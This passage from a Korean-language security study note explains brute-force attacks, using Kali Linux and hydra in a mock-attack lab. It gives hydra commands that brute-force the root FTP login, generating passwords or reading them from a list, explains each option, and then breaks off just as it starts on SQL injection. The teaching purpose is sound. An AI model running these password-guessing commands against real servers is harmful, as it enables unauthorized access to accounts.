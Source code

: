     2. Brute force 공격
        
        Brute force 공격이란? : 암호화를 풀기 위해 무차별 적으로 대입해가며 맞춰보는 공격을 뜻한다. 
        
        모의 공격을 위해 칼리리눅스 & hydra를 사용했다.
        
        ```bash
        #vsftpd : ftp 서버 프로그램의 일종.
        write_enable = yes #ftp 서버 사용시 write 명령어를 허용시킨다.
        #또한 vsftlog에 접속한 사용자의 로그가 남게된다. 
        ```
        
        ```bash
        #hydra : 지속적인 로그인 시도 공격을 하게 해주는 자동화 도구. 칼리 리눅스에 내장되어 있다.
        hydra –t 64 –w 1 –l root –V –f –x 4:6:a ftp://ip
        #-t : 스레드 개수를 지정한다. 이 경우 64개를 지정했다.
        #-w : response를 시다리는 시간 지정. 최대 1초를 기다린다. 
        #-l : 단일 아이디 'root'로만 로그인을 시도한다.
        #-V : 로그인 시도 계정과 비밀번호를 화면에 보여준다. 
        #-f : 로그인을 성공하면 작업 수행 종료
        #-x : MIN:MAX:CHARSET 비밀번호 생성에 무엇을 쓸 건지 결정하는 옵션.
        # 최소 글자수 : 최대 글자수 : 사용할 문자 집합 을 작성한다. 현재 옵션이 a이므로 영문 소문자만 사용한다!
        hydra –l root –V –f –P pass.lst ftp://ip
        #-P : 시도해볼 패스워드를 파일에서 불러오는 옵션.
        ```
        
        <img src="img/2025-01-25(11).png">
        
    3. SQL injection
        
        SQL injection이란? : sql문에 특정 문자열을 넣어 예상과는 다른 동작을 하게 하는 공격. 
        예를 들어 다음과 같은 경우를 보자. 
        